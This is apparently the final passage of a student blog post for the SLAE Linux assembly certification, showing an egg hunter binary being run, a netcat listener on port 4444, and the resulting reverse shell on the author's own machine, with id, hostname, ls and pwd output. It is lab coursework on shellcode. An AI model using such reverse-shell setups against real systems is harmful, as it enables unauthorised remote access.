 Now that the listener is set up, let's execute our binary and obtain our reverse shell.

```sh
anubis@ubuntu:~/SLAE/Assignment_3$ ./egghunter 
Egg hunter length: 46
Shellcode length: 87
```

```sh
anubis@ubuntu:~/SLAE/Assignment_3$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 46184)

```

As seen in the previous blog, there is a notification that a connection has been made but no initial output. But once commands are executed, it is seen that we have successfully made the target connect back to our listener.


```sh
anubis@ubuntu:~/SLAE/Assignment_3$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 46184)
id
uid=1000(anubis) gid=1000(anubis) groups=1000(anubis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
hostname
ubuntu
ls
compile.sh
egg
egg.c
egg.nasm
egg.o
egghunter
pwd
/home/anubis/SLAE/Assignment_3

```

Success! This assignment is now complete and we can move on to the next one!




<hr />

This blog post was created as per the requirements of the Security Tube Linux Assembly Expert certification.

Student ID: SLAE-1406

Please see [https://github.com/AnubisSec/SLAE](https://github.com/AnubisSec/SLAE) for all the source files mentioned on this site.





